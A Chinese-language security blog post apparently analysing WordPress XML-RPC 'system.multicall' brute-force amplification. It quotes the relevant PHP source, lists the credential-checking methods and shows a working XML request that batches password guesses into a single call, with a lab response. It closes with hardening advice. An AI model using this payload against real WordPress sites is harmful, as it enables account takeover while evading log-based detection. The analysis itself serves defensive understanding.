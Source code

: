 ```yaml
---
layout: post
title: "WordPress 利用XMLRPC高效爆破 原理分析"
tags: [web, security]
---
```


xmlrpc 是 WordPress 中进行远程调用的接口，而使用 xmlrpc 调用接口进行账号爆破在很早之前就被提出并加以利用。近日 [SUCURI](https://blog.sucuri.net/2015/10/brute-force-amplification-attacks-against-wordpress-xmlrpc.html) 发布文章介绍了如何利用 xmlrpc 调用接口中的 `system.multicall` 来提高爆破效率，使得成千上万次的帐号密码组合尝试能在一次请求完成，极大的压缩请求次数，在一定程度上能够躲避日志的检测。

### 一、原理分析

WordPress 中关于 xmlrpc 服务的定义代码主要位于 `wp-includes/class-IXR.php` 和 `wp-includes/class-wp-xmlrpc-server.php` 中。基类 IXR_Server 中定义了三个内置的调用方法，分别为 `system.getCapabilities`，`system.listMethods` 和 `system.multicall`，其调用映射位于 `IXR_Server` 基类定义中：

``` php
function setCallbacks()
{
    $this->callbacks['system.getCapabilities'] = 'this:getCapabilities';
    $this->callbacks['system.listMethods'] = 'this:listMethods';
    $this->callbacks['system.multicall'] = 'this:multiCall';
}
```

而基类在初始化时，调用 setCallbacks() 绑定了调用映射关系：

``` php
function __construct( $callbacks = false, $data = false, $wait = false )
{
    $this->setCapabilities();
    if ($callbacks) {
        $this->callbacks = $callbacks;
    }
    $this->setCallbacks();  // 绑定默认的三个基本调用映射
    if (!$wait) {
        $this->serve($data);
    }
}
```

再来看看 `system.multicall` 对应的处理函数：

``` php
function multiCall($methodcalls)
{
    // See http://www.xmlrpc.com/discuss/msgReader$1208
    $return = array();
    foreach ($methodcalls as $call) {
        $method = $call['methodName'];
        $params = $call['params'];
        if ($method == 'system.multicall') {
            $result = new IXR_Error(-32600, 'Recursive calls to system.multicall are forbidden');
        } else {
            $result = $this->call($method, $params);
        }
        if (is_a($result, 'IXR_Error')) {
            $return[] = array(
                'faultCode' => $result->code,
                'faultString' => $result->message
            );
        } else {
            $return[] = array($result);
        }
    }
    return $return;
}
```

可以从代码中看出，程序会解析请求传递的 XML，遍历多重调用中的每一个接口调用请求，并会将最终有调用的结果合在一起返回给请求端。

这样一来，就可以将500种甚至是10000种帐号密码爆破尝试包含在一次请求中，服务端会很快处理完并返回结果，这样极大地提高了爆破的效率，利用多重调用接口压缩了请求次数，10000种帐号密码尝试只会在目标服务器上留下一条访问日志，一定程度上躲避了日志的安全检测。

通过阅读 WordPress 中 xmlrpc 相关处理的代码，能大量的 xmlrpc 调用都验证了用户名和密码：

``` php
    if ( !$user = $this->login($username, $password) )
        return $this->error;
```

通过搜索上述登录验证代码可以得到所有能够用来进行爆破的调用方法列表如下： 

    wp.getUsersBlogs, wp.newPost, wp.editPost, wp.deletePost, wp.getPost, wp.getPosts, wp.newTerm, wp.editTerm, wp.deleteTerm, wp.getTerm, wp.getTerms, wp.getTaxonomy, wp.getTaxonomies, wp.getUser, wp.getUsers, wp.getProfile, wp.editProfile, wp.getPage, wp.getPages, wp.newPage, wp.deletePage, wp.editPage, wp.getPageList, wp.getAuthors, wp.getTags, wp.newCategory, wp.deleteCategory, wp.suggestCategories, wp.getComment, wp.getComments, wp.deleteComment, wp.editComment, wp.newComment, wp.getCommentStatusList, wp.getCommentCount, wp.getPostStatusList, wp.getPageStatusList, wp.getPageTemplates, wp.getOptions, wp.setOptions, wp.getMediaItem, wp.getMediaLibrary, wp.getPostFormats, wp.getPostType, wp.getPostTypes, wp.getRevisions, wp.restoreRevision, blogger.getUsersBlogs, blogger.getUserInfo, blogger.getPost, blogger.getRecentPosts, blogger.newPost, blogger.editPost, blogger.deletePost, mw.newPost, mw.editPost, mw.getPost, mw.getRecentPosts, mw.getCategories, mw.newMediaObject, mt.getRecentPostTitles, mt.getPostCategories, mt.setPostCategories
    
这里是用参数传递最少获取信息最直接的 `wp.getUsersBlogs` 进行测试，将两次帐号密码尝试包含在同一次请求里，构造 XML 请求内容为：

``` xml
<methodCall>
  <methodName>system.multicall</methodName>
  <params><param>
    <value><array><data>
      <value><struct>
        <member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member>
        <member><name>params</name><value><array><data>
          <value><string>admin</string></value>
          <value><string>admin888</string></value>
        </data></array></value></member>
      </struct></value>
      
      <value><struct>
        <member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member>
        <member><name>params</name><value><array><data>
          <value><string>guest</string></value>
          <value><string>test</string></value>
        </data></array></value></member>
      </struct></value>
    </data></array></value>
  </param></params>
</methodCall>
```

将上面包含两个子调用的 XML 请求发送至 xmlrpc 服务端入口，若目标开启了 xmlrpc 服务会返回类似如下的信息：

``` xml
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><array><data>
  <value><array><data>
  <value><struct>
  <member><name>isAdmin</name><value><boolean>1</boolean></value></member>
  <member><name>url</name><value><string>http://172.16.96.130/xampp/wordpress-4.3.1/</string></value></member>
  <member><name>blogid</name><value><string>1</string></value></member>
  <member><name>blogName</name><value><string>WordPress 4.3.1</string></value></member>
  <member><name>xmlrpc</name><value><string>http://172.16.96.130/xampp/wordpress-4.3.1/xmlrpc.php</string></value></member>
</struct></value>
</data></array></value>
</data></array></value>
  <value><struct>
  <member><name>faultCode</name><value><int>403</int></value></member>
  <member><name>faultString</name><value><string>用户名或密码不正确。</string></value></member>
</struct></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>
```

从结果中可以看到在同一次请求里面处理了两种帐号密码组合，并以集中形式将结果返回，通过该种方式可以极大地提高帐号爆破效率。

### 二、防护建议

最新版 WordPress(4.3.1) 中仍存在该问题。多重调用（multicall）属于 xmlrpc 的标准，为了防止攻击者利用此点对网站发起爆破攻击，给出以下防护建议：

1. 通过配置 Apache、Nginx 等 Web 服务器来限制 xmlrpc.php 文件的访问;
2. 在不影响站点运行的情况下可以直接删除 xmlrpc.php 文件;
3. 从官方插件库中安装 [Disable XML-RPC](https://wordpress.org/plugins/disable-xml-rpc/) 并启用;
4. 添加代码 `add_filter('xmlrpc_enabled', '__return_false');` 至 WordPress 配置文件 `wp-config.php`;

### 参考链接

* [https://blog.sucuri.net/2015/10/brute-force-amplification-attacks-against-wordpress-xmlrpc.html](https://blog.sucuri.net/2015/10/brute-force-amplification-attacks-against-wordpress-xmlrpc.html)
* [https://pop.co/blog/protecting-your-wordpress-blog-from-xmlrpc-brute-force-amplification-attacks/](https://pop.co/blog/protecting-your-wordpress-blog-from-xmlrpc-brute-force-amplification-attacks/)
* [http://www.deluxeblogtips.com/2013/08/disable-xml-rpc-wordpress.html](http://www.deluxeblogtips.com/2013/08/disable-xml-rpc-wordpress.html)
